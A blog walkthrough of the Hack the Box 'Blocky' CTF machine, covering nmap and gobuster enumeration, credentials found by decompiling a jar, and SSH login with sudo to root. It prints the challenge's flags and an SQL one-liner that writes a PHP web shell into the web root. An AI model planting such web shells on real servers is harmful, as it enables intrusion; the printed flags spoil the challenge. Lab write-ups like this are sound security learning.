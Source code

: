 ```yaml
---
title: Blocky, Hack the Box CTF Walkthrough
description: 
tag: CTF
style: blog3
image: /assets/img/posts/2021-30-04-blocky-hack-the-box-walkthrough/blocky.png
layout: post
description: "Blocky is an easy level CTF challenge from the Hack the Box Archives. Developed by Arrexel and consists of a linux machine configured as a Minecraft and wordpress server"
date:   2021-03-29 20:01:21 -0400
last-updated: 2021-03-29 20:01:21 -0400
tag: ctf
author: Tyler Butler
lead: "Using the Java Decompiler to Analyze Source Code"
card: card-2
---
```



Blocky is an easy level CTF challenge from the Hack the Box Archives. Developed by [Arrexel](https://app.hackthebox.eu/users/2904), the challenge consists of a linux machine configured as a Minecraft and wordpress server. It is easy to get carried away on this challenge, especially with poking at the wordpress and minecraft server, but once the user is compromised, escalation to root is trivial. My biggest takeaway from this CTF is to expand my basic directory brute force strategy to gaurentee a greater chance of discovery. 

## Major Takeaway's 
1) Don't reply on a simple `dirb` scan to brute force server directories   
2) Ensure to test username/password pairs on multiple services 


# Basic Enumeration 

To start, I used a simple `nmap` scan to look for running services and open ports. 

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ sudo nmap -sV -A -O -p- 10.10.10.37                                                                                                                                     1 ⨯
[sudo] password for kali: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-30 14:31 EDT
Nmap scan report for 10.10.10.37
Host is up (0.029s latency).
Not shown: 65530 filtered ports
PORT      STATE  SERVICE   VERSION
21/tcp    open   ftp       ProFTPD 1.3.5a
22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp    open   http      Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp  closed sophos
25565/tcp open   minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Device type: general purpose|WAP|specialized|storage-misc|broadband router|printer
Running (JUST GUESSING): Linux 3.X|4.X|5.X|2.6.X (94%), Asus embedded (90%), Crestron 2-Series (89%), HP embedded (89%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel cpe:/h:asus:rt-ac66u cpe:/o:crestron:2_series cpe:/h:hp:p2000_g3 cpe:/o:linux:linux_kernel:5.1 cpe:/o:linux:linux_kernel:2.6
Aggressive OS guesses: Linux 3.10 - 4.11 (94%), Linux 3.13 (94%), Linux 3.13 or 4.2 (94%), Linux 4.2 (94%), Linux 4.4 (94%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.12 (91%), Linux 3.2 - 4.9 (91%), Linux 3.8 - 3.11 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8192/tcp)
HOP RTT      ADDRESS
1   31.60 ms 10.10.14.1
2   31.65 ms 10.10.10.37

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 202.01 seconds
```

The resulting scan shows several running processes. I did some basic research on each service version to check for known vulnerabilities. At first, it seemed that the ProFTPD server might be vulnerable to the `mod_copy` exploit described in CVE-2015-3306. After trying a couple different PoC exploits, the target did not seem vulnerable so I moved on. Using `gobuster`, I searched for directories on the host. 

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ gobuster dir -u http://10.10.10.37 -w /home/kali/eWPT/kali-tools/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.37
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/kali/eWPT/kali-tools/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/03/30 14:42:00 Starting gobuster in directory enumeration mode
===============================================================
/wiki                 (Status: 301) [Size: 309] [--> http://10.10.10.37/wiki/]
/wp-content           (Status: 301) [Size: 315] [--> http://10.10.10.37/wp-content/]
/plugins              (Status: 301) [Size: 312] [--> http://10.10.10.37/plugins/]   
/wp-includes          (Status: 301) [Size: 316] [--> http://10.10.10.37/wp-includes/]
/javascript           (Status: 301) [Size: 315] [--> http://10.10.10.37/javascript/] 
/wp-admin             (Status: 301) [Size: 313] [--> http://10.10.10.37/wp-admin/]   
/phpmyadmin           (Status: 301) [Size: 315] [--> http://10.10.10.37/phpmyadmin/] 
```

The resulting output indicated the /plugins directory, which when browsed, showed a custom plugin called BlockCore.jar. I downloaded the file and used the java decompiler tool `jd-gui` to inspect the classes. The class blockycore uses a hard-coded username and password, root:8YsqfCTnvxAUeduzjNSXe22.


<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-30-04-blocky-hack-the-box-walkthrough/blockycore.png">
    </div>
</div>
<br/>  


# Compromise User

With a pair of found credentials, I attempted to access the wordpress site with no luck. Eventually I found that I could use the credentials to log into the phpmyadmin instance. As administrator of phpmyadmin, I was sure I could pivot to gain access to the machine. I attempted to create a new user account for the wordpress site, change the current "notch" user's password, and even upload a reverse shell using direct sql commands. None of these options worked, however a technique I came across described by Ryan Trost in the book "Practical Intrusion Analysis: Prevention and Detection for the Twenty-First Century: Prevention and Detection for the Twenty-First Century" was fairly interesting. It involves injecting  SQL command to insert a backdoor php file, 

```SQL
select “<? System($_REQUEST[‘cmd’]); ?>” into outfile “/var/www/html/cmd.php”;
``` 

In this instance, this method was blocked by insufficient file permissions, but I will be sure to consider this on future challenges. Ultimately, I was able to get root by attempting to log into the ssh service with the notch user and the admin credentials found in the jar file. 

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh notch@10.10.10.37
notch@10.10.10.37's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Tue Jul 25 11:14:53 2017 from 10.10.14.230
notch@Blocky:~$ 
```
## User Flag

```bash
notch@Blocky:~$ ls
minecraft  user.txt
notch@Blocky:~$ cat user.txt
59fee0977fb60b8a0bc6e41e751f3cd5notch@Blocky:~$ 
```

## Compromise Root 

I instinctively tried to sudo to root, and was suprised when the notch user had permissions to do so. As root, I read the final flag. 

```bash
notch@Blocky:~$ sudo su root
[sudo] password for notch: 
Sorry, try again.
[sudo] password for notch: 
root@Blocky:/home/notch# cat ../../root/root.txt
0a9694a5b4d272c694679f7860f1cd5froot@Blocky:/home/notch# 
```